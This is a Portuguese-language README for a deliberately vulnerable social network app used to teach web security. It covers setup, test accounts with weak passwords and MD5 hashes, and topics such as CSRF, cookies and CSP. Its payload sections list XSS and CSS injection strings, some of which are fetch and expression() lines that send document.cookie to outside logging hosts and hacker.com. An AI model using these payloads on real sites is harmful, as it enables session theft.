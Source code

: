 # Damn Vulnerable Social Network

Uma aplicação vulnerável indicada para testes e entendimento de conceitos de segurança em Aplicações WEB

Requisitos:
- Java 17
- Node 19
- Docker
- Docker Compose
- Postgres instalado. (Caso não tenha o Docker e Docker Compose)

## Rodar a aplicação

### 1. Entrar na pasta do front (dvsn/front) e dar build no projeto, para que os arquivos sejam colocados na pasta estática da api.

NPM:
```
npm install
npm build
```
YARN:
```
yarn
yarn build
```

### 2. Subir as aplicações utilizando o Docker Compose. Rodar o comando abaixo na pasta raíz do projeto.
```
docker-compose up
```
Obs.: Caso queira subir apenas o banco de dados, é necessário comentar as demais aplicações no docker-compose.yml.

### 3. Criação do banco de dados.

- Entrar na pasta **dvsn** e executar o script:
```bash
$ ./create-database.sh
```

### 4. Abrir o VS Code ou IntelliJ e rodar a aplicação.
Main Class -> RootApplication.java

## Usuários disponíveis
|Email|Hash Senha|Senha|Admin|
|-|-|-|-|
|bob@mail.com|0acf4539a14b3aa27deeb4cbdf6e989f|michael|Sim|
|jimi@mail.com|061fba5bdfc076bb7362616668de87c8|lovely|Não|
|jim@mail.com|5f4dcc3b5aa765d61d8327deb882cf99|password|Não|
|amy@mail.com|d8578edf8458ce06fbc5bb76a58c5ca4|qwerty|Não|
|janis@mail.com|46f94c8de14fb36680850768ff1b7f2a|123qwe|Não|

## Hints:
- [Certificados](./docs/hints/certificates.md)

## Assuntos abordados:

- OWASP TOP 10
- CSRF
- Cookies (HttpOnly, Secure, SameSite)
- Alguns cuidados com LocalStorage e SessionStorage
- Como manter componentes/frameworks/libs seguras e atualizadas
- Cabeçalhos CSP e X-Frame-Options

## Software Composition Analysis (SCA)
- NodeJS/JavaScript: <a href="https://www.npmjs.com/package/yarn-audit-html">yarn audit html report</a>

## Vulnerabilidades
- [SQL Injection](./docs/vulns/sql-injection.md)
- [XSS](./docs/vulns/xss.md)
- Cookie
    - É apenas um base64 e a aplicação confia no que o cliente enviar.

fetch('https://servidor-de-log.free.beeceptor.com/todos?cookie=' +  document.cookie)
fetch('http://logger.crescer.lab/?cookie=' +  document.cookie)

## Payloads:
- XSS
```html
<img src="a" onerror="alert('XSS')" />
```
- SVG
```html
<?xml version="1.0" standalone="no"?>
<!DOCTYPE svg PUBLIC "-//W3C//DTD SVG 1.1//EN" "http://www.w3.org/Graphics/SVG/1.1/DTD/svg11.dtd">

<svg version="1.1" baseProfile="full" xmlns="http://www.w3.org/2000/svg">
  <polygon id="triangle" points="0,0 0,50 50,0" fill="#009900" stroke="#004400"/>
  <script type="text/javascript">
    alert("XSS");
  </script>
</svg>
```

- CSS Injection
/hello?nome=Teste#red;margin-left:50px;background-image:url('http://localhost:8080/favicon.ico')
- expression(document.write('<iframe src=" .= "http://hacker.com?cookie=' + document.cookie.escape() + " />'))
background-image: url(javascript:alert('XSS'))
https://www.mediawiki.org/wiki/Preventing_XSS_Attacks_through_CSS_Whitelisting

## Exemplos de vulnerabilidades:
- <a href="https://security.snyk.io/vuln/SNYK-JS-MATERIALIZECSS-2324800">XSS materialize-css</a>

## Referências
https://developer.mozilla.org/pt-BR/docs/Web/JavaScript/Reference/Global_Objects/eval
https://github.com/payloadbox/xss-payload-list

